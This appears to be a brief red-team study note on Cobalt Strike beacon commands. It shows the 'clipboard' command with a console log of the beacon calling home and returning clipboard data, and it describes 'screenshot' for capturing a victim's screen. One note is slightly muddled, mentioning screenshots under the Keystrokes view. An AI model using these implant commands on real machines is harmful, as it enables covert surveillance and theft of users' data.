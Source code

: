 command run:
`beacon> clipboard` 

notable information:
`captures any text that is in the user's clipboard`

notes:
`to look at screenshots in cobaltstrike navigate to View > Keystrokes`

For whatever reason pulled my clipboard settings lol
```powershell
[11/02 22:35:58] beacon> clipboard
[11/02 22:35:58] [*] Tasked beacon to get clipboard contents
[11/02 22:35:58] [+] host called home, sent: 1488 bytes
[11/02 22:35:58] [+] received output:
Clipboard Data (190 bytes):
command run:
`beacon> screenshot` 

notable information:
`takes screenshot of current screen of victim`

notes:
`to look at screenshots in cobaltstrike navigate to View > Screenshots`
```